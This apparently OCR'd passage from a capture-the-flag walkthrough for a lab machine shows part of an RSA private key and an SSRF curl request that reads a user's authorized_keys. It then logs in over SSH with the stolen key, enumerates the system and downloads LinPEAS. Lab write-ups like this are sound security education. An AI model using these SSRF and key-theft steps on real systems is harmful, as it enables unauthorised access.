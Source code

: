 ```bash
d+PeGU6afPJ3wLWGz6Qjil1Tjpe2YVFXrbbEpm0fhcA5mwCRLuGk2VXs1Fjk9Q4o
7MDu4QKBgFIomwhD+jmr3Vc2HutYkl3zliSD239sH3k118sTHbedvKH5Q7nw0C+U
a7RMp/cXWZKdyRgFxQ7DQEorzWi5bLAyxXnMg0ghwWdf4nugQmaEG7t+OYUNsf7M
fDLzMA915WcODR6L0mWO0crAMbZQOkg1KlAiwQSQmuUpPqyAfq6x
-----END RSA PRIVATE KEY-----
```

`curl -s -X $'POST' --data-binary $'www=http://127.1/.ssh/authorized_keys' $'http://londonbridge.thm:8080/view_image' -o authorized_keys`

```bash
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPXIWuD0UBkAjhHftpBaf949OT8wp/PYpD44TjkoSuC4vfhiPkpzVUmMNNM1GZz681FmJ4LwTB6VaCnBwoAJrvQp7ar/vNEtYeHbc5TFaJIAA5FN5rWzl66zeCFNaNx841E4CQSDs7dew3CCn3dRQHzBtT4AOlmcUs9QMSsUqhKn53EbivHCqkCnqZqqwTh0hkd0Cr5i3r/Yc4REqsVaI41Cl3pkDxrfbmhZdjxRpES8pO5dyOUvnq3iJZDOxFBsG8H4RODaZrTW78eZbcz1LKug/KlwQ6q8+e4+mpcdm7sHAAszk0eFcI2a37QQ4Fgq96OwMDo15l8mDDrk1Ur7aF beth@london
```

> **SSH Connection & System Information Phase**
> 

`chmod 600 id_rsa`

`ssh -i id_rsa -o MACs=hmac-sha2-256 beth@londonbridge.thm -p 22`

```bash
beth@london:~$ whoami
beth
beth@london:~$ id
uid=1000(beth) gid=1000(beth) groups=1000(beth)
beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
beth@london:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
beth@london:~$ ls -lsa __pycache__
total 20
4 drwxrwxr-x  2 beth beth 4096 Apr 23 22:15 .
4 drwxr-xr-x 11 beth beth 4096 May  7 06:36 ..
4 -rw-rw-r--  1 beth beth 3209 Apr 17 03:46 app.cpython-36.pyc
4 -rw-rw-r--  1 beth beth  375 Apr 17 04:03 gunicorn_config.cpython-36.pyc
4 -rw-r--r--  1 root root   25 Apr 23 22:15 user.txt
beth@london:~$ 
```

> **System Exploit Enumeration & LinPEAS Phase**
> 

`wget https://github.com/peass-ng/PEASS-ng/releases/download/20240818-ea81ae32/linpeas_linux_amd64`

```bash
linpeas_linux_amd64                  100%[====================================================================>]   3.10M  4.25MB/s    in 0.7s    

2024-10-02 02:58:16 (4.25 MB/s) - ‘linpeas_linux_amd64’ saved [3256264/3256264]
```
